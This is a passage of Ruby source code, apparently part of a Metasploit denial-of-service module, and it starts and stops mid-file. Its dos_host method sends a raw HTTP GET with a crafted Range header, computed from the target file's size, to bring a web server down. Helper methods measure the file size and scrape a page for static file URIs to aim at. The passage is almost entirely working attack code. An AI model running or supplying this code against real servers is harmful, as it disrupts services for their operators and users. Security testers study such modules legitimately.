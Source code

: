 ```ruby
  end

  def get_file_size(ip)
    @file_size ||= lambda {
      file_size = -1
      uri = normalize_uri(target_uri.path)
      res = send_request_raw('uri' => uri)

      unless res
        vprint_error("Connection timed out")
        return file_size
      end

      if res.code == 404
        vprint_error("You got a 404. URI must be a valid resource.")
        return file_size
      end

      file_size = res.body.length
      vprint_status("File length: #{file_size} bytes")

      return file_size
    }.call
  end

  def dos_host(ip)
    file_size = get_file_size(ip)
    lower_range = file_size - 2

    # In here we have to use Rex because if we dos it, it causes our module to hang too
    uri = normalize_uri(target_uri.path)
    begin
      cli = Rex::Proto::Http::Client.new(ip)
      cli.connect
      req = cli.request_raw(
        'uri' => uri,
        'method' => 'GET',
        'headers' => {
          'Range' => "bytes=#{lower_range}-#{upper_range}"
        }
      )
      cli.send_request(req)
    rescue ::Errno::EPIPE, ::Timeout::Error
      # Same exceptions the HttpClient mixin catches
    end
    print_status("DOS request sent")
  end

  def potential_static_files_uris
    uri = normalize_uri(target_uri.path)

    return [uri] unless uri[-1, 1] == '/'

    uris = ["#{uri}welcome.png"]
    res  = send_request_raw('uri' => uri, 'method' => 'GET')

    return uris unless res

    site_uri = URI.parse(full_uri)
    page     = Nokogiri::HTML(res.body.encode('UTF-8', invalid: :replace, undef: :replace))

    page.xpath('//link|//script|//style|//img').each do |tag|
      %w(href src).each do |attribute|
```